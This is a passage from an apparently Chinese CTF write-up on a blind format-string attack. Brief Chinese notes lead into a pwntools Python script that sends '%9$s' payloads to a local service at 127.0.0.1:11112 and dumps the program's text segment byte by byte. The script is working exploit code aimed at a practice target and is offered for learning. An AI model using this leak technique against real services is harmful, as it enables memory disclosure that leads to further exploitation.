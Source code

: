 [![](assets/1701612281-6dcb9fb40f173d384d8fbdaaa6f68c21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224106-208d8f7a-2579-1.png)

我们在 1164 与 1188 的地方找到了加载始地址

之后把 leak.py 修改一下即可

```bash
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用 binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048510
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0，也就是数据是 \x00 的情况。地址增加 1，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
```